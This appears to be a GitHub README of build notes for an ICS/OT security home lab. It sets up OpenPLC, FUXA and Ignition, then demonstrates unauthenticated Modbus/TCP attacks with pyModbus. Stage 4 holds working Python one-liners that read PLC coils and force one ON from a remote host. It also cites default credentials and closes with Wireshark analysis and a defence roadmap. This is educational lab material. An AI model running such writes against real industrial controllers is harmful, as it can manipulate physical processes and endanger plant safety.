










# ICS/OT Home Lab — Detailed Build Notes

> A minimalist, high-signal walkthrough of building an ICS/OT security research laboratory using open-source tools and standard hardware.

---

## Lab Specifications

* **Host OS:** EndeavourOS (Arch-based)
* **Hardware:** Intel i5 | 16GB RAM | 1TB SSD
* **Attacker Machine:** Ubuntu (Separate physical host on the same local subnet)

---

## Technology Stack

| Tool | Role | Environment |
| :--- | :--- | :--- |
| **OpenPLC** | Programmable Logic Controller Simulator | Docker (Host) |
| **FUXA** | Web-based HMI/SCADA Dashboard | Docker (Host) |
| **Ignition (Maker)** | Enterprise-grade HMI/SCADA Platform | Windows 11 VM |
| **pyModbus** | Modbus/TCP Protocol Testing & Manipulation | Native (Attacker Host) |
| **Wireshark** | Packet Capture & Protocol Analysis | Native (Host) |
| **VirtualBox** | Type-2 Hypervisor | Native (Host) |

---

## Architecture Overview

```text
[ Attacker Machine: Ubuntu ]
             |
             | LAN (192.168.1.x)
             |
[ Host Machine: EndeavourOS ]
             |
             ├── OpenPLC (Docker) ── Ports: 502 (Modbus), 8080 (Web UI)
             │        │
             │        └── FUXA (Docker) ── Port: 1881 (Reads PLC via Modbus/TCP)
             │
             └── VirtualBox
                      │
                      └── [ Windows 11 VM ] ── Ignition (Reads PLC via Modbus/TCP)

```

---

## Stage 1 — Deploying OpenPLC

OpenPLC serves as the core control runtime. It executes industrial logic and exposes a native Modbus/TCP interface on standard port 502.

### 1. Container Deployment

Execute the container detached and map both the control interface and web management ports:

```bash
docker pull wzy318/openplc
docker run -d --name openplc -p 502:502 -p 8080:8080 wzy318/openplc

```

### 2. Verify Container Runtime

Ensure the port forwardings are correctly bound to the host network interfaces:

```bash
docker ps

```

*Expected output verification:* `0.0.0.0:502->502/tcp` and `0.0.0.0:8080->8080/tcp`




### 3. Provision Industrial Logic

1. Navigate to the management console at `http://localhost:8080`.
2. Authenticate using default credentials: `openplc` / `openplc`.
3. Select **Programs** -> **Upload Program** and provision a standard functional block or ladder diagram.
4. Click **Start PLC** and verify the dashboard transitions to a **Running** state.



---

## Stage 2 — Integrating FUXA HMI

FUXA provides the local SCADA/HMI visualization layer, communicating directly with the PLC via registers.

### 1. Container Deployment

```bash
docker pull frangoteam/fuxa:latest
docker run -d --name fuxa -p 1881:1881 frangoteam/fuxa:latest

```

### 2. Interface Bridging

Access the FUXA console at `http://localhost:1881` and navigate to **Settings** -> **Connections** -> **Add Device**.

> ⚠️ **Network Constraint:** Because both components exist within isolated Docker abstractions, referencing `127.0.0.1` inside FUXA will fail to hit the PLC. You must extract the internal bridge network IP assigned to OpenPLC.

Query the internal Docker network configuration:

```bash
docker inspect openplc | grep IPAddress

```

*Expected return format:* `172.17.0.2`



### 3. Driver Parameters

Configure the device node using the following parameters:

| Parameter | Configuration Value |
| --- | --- |
| **Name** | `OpenPLC_Lab` |
| **Type** | `Modbus TCP` |
| **Slave IP & Port** | `172.17.0.2:502` (Use the extracted container IP) |
| **Enable** | `ON` |



Upon saving, the device connectivity indicator should transition to **green**, confirming active Modbus register polling.



---

## Stage 3 — Provisioning Enterprise SCADA via Ignition

Ignition by Inductive Automation represents an industry-standard SCADA platform. We utilize the complimentary Maker Edition license within an isolated Windows environment.

### 1. Driver Configuration

1. Access the Ignition Gateway administration console inside the VM at `http://localhost:8088`.
2. Navigate to **Config** -> **OPC-UA** -> **Drivers** -> **Create New Device**.
3. Select the native **Modbus TCP Driver**.

> ⚠️ **Network Constraint:** Because the platform is nested inside a virtualized hypervisor, network traffic targeting the local container loopback must traverse the virtual network interface card (vNIC) back to the host LAN IP.

Determine your host workstation's primary LAN IP:

```bash
ip addr show | grep "inet " | grep -v 127

```

### 2. Ignition Driver Settings

| Parameter | Configuration Value |
| --- | --- |
| **Name** | `OpenPLC_Lab` |
| **Hostname/IP** | `192.168.1.x` (Your specific host workstation LAN IP) |
| **Port** | `502` |



Verify that the status transitions to **Connected**.



---

## Stage 4 — Executing Unauthenticated Protocol Attacks

This phase demonstrates the insecurity of legacy, unencrypted operational protocols. Operating from the external Ubuntu host, we interact directly with the hardware abstraction registers, bypassing all visual HMI validation logic entirely.

### 1. Environment Setup

Prepare the manipulation client on the attacker host:

```bash
pip3 install pymodbus

```

Confirm low-level network layer accessibility:

```bash
ping -c 3 <HOST_IP>

```



### 2. Operational Reconnaissance (Reading Coils)

We programmatically query the status of the first 8 digital output coils to establish baseline operational visibility without requiring session authentication tokens:

```python
python3 -c "
from pymodbus.client import ModbusTcpClient
client = ModbusTcpClient('192.168.1.100', port=502)
client.connect()
response = client.read_coils(address=0, count=8)
print('Coils:', response.bits)
client.close()
"

```

*Output:* `Coils: [False, False, False, False, False, False, False, False]`

The telemetry indicates all digital actuators are currently initialized to an **OFF** state.



### 3. Arbitrary Value Injection (The Attack)

We exploit the lack of command-source validation by issuing an unauthenticated override write command directly to Address 0:

```python
python3 -c "
from pymodbus.client import ModbusTcpClient
client = ModbusTcpClient('192.168.1.100', port=502)
client.connect()
client.write_coil(address=0, value=True)
response = client.read_coils(address=0, count=8)
print('Coils after write:', response.bits)
client.close()
"

```

*Output:* `Coils after write: [True, False, False, False, False, False, False, False]`

Coil 0 is successfully forced **ON**. We manipulated physical logic via code from a remote host without an identity boundary.


---

## Stage 5 — Protocol Analysis & Defenses via Wireshark

Initialize Wireshark on the host workstation and listen on the active container interface using the display filter:

```text
tcp.port == 502

```

Re-executing the injection scripts exposes the foundational, clean nature of the Modbus protocol architecture:

* **Function Code 01:** Read Coils (Reconnaissance and telemetry collection)
* **Function Code 05:** Write Single Coil (Arbitrary process manipulation)



These exact unencrypted structures are what industrial Network Detection and Response (NDR) engines inspect to identify anomalous command trends inside production subnets.

---

## Security Analysis & Real-world Correlates

### Protocol Limitations

The Modbus/TCP specification fundamentally lacks **authentication, authorization, or encryption primitives**. Any network asset capable of routing IP traffic directly to port 502 can achieve complete process manipulation.

* **Physical Consequences:** In operational plants, this translates to manipulating physical states—pumps, chemical feeders, or physical safety parameters—completely detached from the supervisory dashboard representation.

### Historical Context: The Stuxnet Blueprint

This demonstrates the underlying mechanism utilized in the **Stuxnet** campaign. Stuxnet did not alter the SCADA monitoring UI screens; it silently intercepted and modified the control signals directed at the underlying field PLCs. The operators looked at static, normal dashboard telemetry while physical components were actively driven to failure parameters underneath.

### Historical Context: Oldsmar Water Facility (2021)

During the Oldsmar incident, an unauthorized entity altered HMI inputs to scale chemical additive concentrations to catastrophic targets. While that vector utilized remote visualization exploitation, our lab exercises a much cleaner, more dangerous vector: completely ignoring the supervisory tier to speak raw industrial machine language directly to the logic processor.

---

## Future Roadmap

* [ ] Segment infrastructure via GNS3 to enforce functional Purdue Model architectural boundaries.
* [ ] Deploy a Conpot honeypot cluster to mimic secondary asset distribution.
* [ ] Develop custom IDS signatures to alert on anomalous Modbus payload structures.
* [ ] Map active testing vectors directly to the **MITRE ATT&CK for ICS** taxonomy matrices.
* [ ] Review compliance metrics specified by the **ISA/IEC 62443** zone security framework.

---

## References

* [OpenPLC Project Core Engine](https://autonomylogic.com)
* [FUXA GitHub Repository](https://github.com/frangoteam/FUXA)
* [Ignition Maker Core Download](https://inductiveautomation.com)
* [pyModbus Protocol Documentation](https://pymodbus.readthedocs.io)
* [MITRE ATT&CK for ICS Framework](https://attack.mitre.org/matrices/ics/)
* [ISA/IEC 62443 Industrial Security Overview](https://www.isa.org/standards-and-publications/isa-standards/isa-iec-62443-series-of-standards)
